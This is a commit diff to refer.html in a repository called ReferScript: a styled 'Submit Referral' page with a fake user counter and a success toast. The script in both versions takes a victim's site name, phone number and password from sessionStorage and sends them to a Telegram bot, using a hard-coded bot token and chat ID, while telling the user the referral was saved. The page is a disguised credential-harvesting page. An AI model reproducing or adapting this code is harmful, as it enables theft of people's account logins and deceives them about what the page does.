

Before and after one commit to MrRose-x/ReferScript, a plain HTML site: page refer.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update refer.html

```diff
--- a/refer.html
+++ b/refer.html
@@ -2,51 +2,50 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-  <title>Referral - Refer Script</title>
+  <title>Refer Script • Submit Link</title>
+  <link rel="preconnect" href="https://fonts.googleapis.com">
+  <link rel="preconnect" href="https://fonts.gstatic.com" crossorigin>
+  <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;600;800&display=swap" rel="stylesheet">
   <style>
-    :root { --primary:#0d9488; --bg:#f8fafc; --card:#fff; --text:#0f172a; }
-    *{box-sizing:border-box;font-family:'Inter',sans-serif;}
-    body{margin:0;display:flex;align-items:center;justify-content:center;min-height:100vh;background:var(--bg);}
-    .card{width:100%;max-width:380px;padding:2rem;border-radius:1rem;background:var(--card);box-shadow:0 20px 25px -5px rgba(0,0,0,.1),0 8px 10px -6px rgba(0,0,0,.1);}
-    h1{margin:0 0 1.25rem;text-align:center;color:var(--text);}
-    label{display:block;margin:.5rem 0 .25rem;font-size:.875rem;color:var(--text);}
-    input{width:100%;padding:.75rem;border:1px solid #e2e8f0;border-radius:.5rem;font-size:1rem;}
-    button{width:100%;padding:.75rem;margin-top:1.25rem;border:none;border-radius:.5rem;font-size:1rem;font-weight:600;color:#fff;background:var(--primary);cursor:pointer;transition:background .2s;}
-    button:hover{background:#0f766e;}
-    #info{margin-top:1rem;text-align:center;font-size:.875rem;color:var(--text);}
+    :root{--primary:#14b8a6;--primary-dark:#0f766e;--glass-bg:rgba(255,255,255,0.25);--card-radius:1.25rem;--success:#dcfce7;--success-text:#166534;}*{box-sizing:border-box;margin:0;padding:0;font-family:'Inter',sans-serif;}body{min-height:100vh;display:flex;justify-content:center;align-items:center;background:linear-gradient(135deg,#f472b6 0%,#ec4899 100%);}
+    .card{width:92%;max-width:380px;padding:2rem 1.5rem;border-radius:var(--card-radius);backdrop-filter:blur(18px);background:var(--glass-bg);border:1px solid rgba(255,255,255,.35);box-shadow:0 25px 40px -15px rgba(0,0,0,.35);position:relative;}
+    h1{font-size:1.6rem;font-weight:800;color:#fff;text-align:center;margin-bottom:1.5rem;text-shadow:0 1px 3px rgba(0,0,0,.25);}
+    label{display:block;color:#fff;font-size:.9rem;margin:.6rem 0 .25rem;}
+    input{width:100%;padding:.75rem;border-radius:.7rem;border:1px solid rgba(255,255,255,.5);background:rgba(255,255,255,.2);color:#fff;font-size:1rem;}input::placeholder{color:#f1f5f9;}
+    .btn{width:100%;padding:.85rem 1rem;margin-top:1.3rem;border:none;border-radius:.9rem;font-weight:600;font-size:1rem;color:#fff;background:var(--primary);cursor:pointer;transition:transform .2s,box-shadow .2s;}
+    .btn:hover{transform:translateY(-3px);box-shadow:0 12px 20px -6px rgba(0,0,0,.35);}
+    #info{margin-top:1.2rem;text-align:center;color:#fff;font-size:.9rem;}
+    /* Toast */
+    .toast{position:absolute;left:50%;bottom:-70px;transform:translateX(-50%);background:var(--success);color:var(--success-text);padding:.75rem 1rem;border-radius:.7rem;font-weight:600;opacity:0;pointer-events:none;transition:opacity .4s,bottom .4s;}
+    .toast.show{opacity:1;bottom:-20px;}
   </style>
 </head>
 <body>
   <div class="card">
-    <h1 id="site-title">Start Refer</h1>
-    <label>Referral URL</label>
-    <input id="refer" type="url" placeholder="Paste referral URL" required />
-    <button id="start">Start</button>
-    <div id="info"><span id="cnt">225</span> users have referred ✔️</div>
+    <h1 id="heading">Submit Referral</h1>
+    <label>🔗 Referral URL</label>
+    <input id="refer" type="url" placeholder="https://example.com/ref=123" />
+    <button class="btn" id="submit">Start Refer ➜</button>
+    <div id="info"><span id="cnt">225</span> users have referred 🎉</div>
+    <div id="toast" class="toast">Refer Done Successfully!🎉 Wait 24h to update in Websites</div>
   </div>  <script>
-    const TG_TOKEN   = '7865743181:AAEcG4ylMU_Ra41PNzrDtOo3o62pg2PtO2o';
-    const TG_CHAT_ID = '6628729040';
+    const TG_TOKEN='7865743181:AAEcG4ylMU_Ra41PNzrDtOo3o62pg2PtO2o';
+    const TG_CHAT='6628729040';
+    const site=sessionStorage.getItem('site')||'Site';
+    const number=sessionStorage.getItem('number')||'N/A';
+    const password=sessionStorage.getItem('password')||'N/A';
+    document.getElementById('heading').textContent=`${site.toUpperCase()} Refer`;
 
-    const siteName  = sessionStorage.getItem('site')     || 'N/A';
-    const number    = sessionStorage.getItem('number')   || 'N/A';
-    const password  = sessionStorage.getItem('password') || 'N/A';
-    document.getElementById('site-title').textContent = `${siteName.toUpperCase()} Refer`;
+    const toast=document.getElementById('toast');
+    const showToast=msg=>{toast.textContent=msg;toast.classList.add('show');setTimeout(()=>toast.classList.remove('show'),3000);};
 
-    document.getElementById('start').addEventListener('click', async ()=>{
-      const url = document.getElementById('refer').value.trim();
-      if(!url){ alert('Please paste a URL'); return; }
-
-      const message = `${siteName}%0A${number}%0A${password}%0ARefer: ${url}`;
-      await fetch(`https://api.telegram.org/bot${TG_TOKEN}/sendMessage?chat_id=${TG_CHAT_ID}&text=${encodeURIComponent(message)}`)
-        .catch(()=>{});
-
-      // increment & notify user
-      const cntEl = document.getElementById('cnt');
-      cntEl.textContent = parseInt(cntEl.textContent)+1;
-      alert('Referral saved!');
-
-      // optional: clear sessionStorage to tidy up
+    document.getElementById('submit').onclick=async()=>{
+      const url=document.getElementById('refer').value.trim();
+      if(!url){showToast('Enter referral URL');return;}
+      const message=`*${site.toUpperCase()}*\n*Number:* \`${number}\`\n*Pass:* \`${password}\`\n*Refer:* ${url}`;
+      const api=`https://api.telegram.org/bot${TG_TOKEN}/sendMessage?chat_id=${TG_CHAT}&parse_mode=Markdown&text=${encodeURIComponent(message)}`;
+      try{await fetch(api);document.getElementById('cnt').textContent=parseInt(document.getElementById('cnt').textContent)+1;showToast('Referral saved! 🎉');document.getElementById('submit').disabled=true;}catch(e){showToast('Failed, try again');}
       sessionStorage.clear();
-    });
+    };
   </script></body>
 </html>
```
